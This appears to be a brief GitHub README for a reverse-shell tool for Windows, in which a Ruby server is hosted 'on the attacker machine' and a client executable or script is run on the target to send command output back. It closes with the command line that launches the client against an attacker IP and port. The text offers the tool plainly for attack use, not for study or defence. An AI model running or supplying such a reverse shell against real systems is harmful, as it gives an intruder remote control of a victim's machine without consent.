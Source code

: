 # Reverse Shell With Getting Output From Windows

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.

Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
